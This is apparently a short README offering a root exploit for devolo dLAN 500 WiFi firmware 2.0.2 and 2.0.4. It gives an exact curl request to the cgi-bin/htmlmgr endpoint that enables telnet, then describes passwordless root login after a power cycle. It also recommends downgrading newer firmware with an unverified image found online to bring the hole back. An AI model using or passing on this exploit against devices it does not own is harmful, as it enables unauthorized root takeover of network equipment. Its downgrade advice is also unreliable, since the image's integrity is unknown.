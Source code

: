 This was tested on 2.0.2 and 2.0.4 on a dLAN 500 WiFI. This exploit doesn't work anymore on 3.1.3. I don't know when this was fixed.

Fortunately for you, if you're on 3.1.3 you can simply downgrade, as the "update firmware" thingy doesn't check. I found `firmware-dlan-500-wifi-v2-0-2.dvl` in this folder on the intertubes, flashed it and my 1337 root sploit works again. Since I found it on the interwebs however, I can of course not guarantee you that the image is clean.

Here we go:

    curl 'http://IPGOESHERE/cgi-bin/htmlmgr' -H 'Content-Type: application/x-www-form-urlencoded' --data '%3Asys%3ASystem.Baptization.Telnetd=1'

Wait 30 seconds.

Powercycle your devolo. I.e. pull it from the power outlet and replug.

Wait until it boots.

Telnet into your devolo.

Username: root

It will not ask for a password
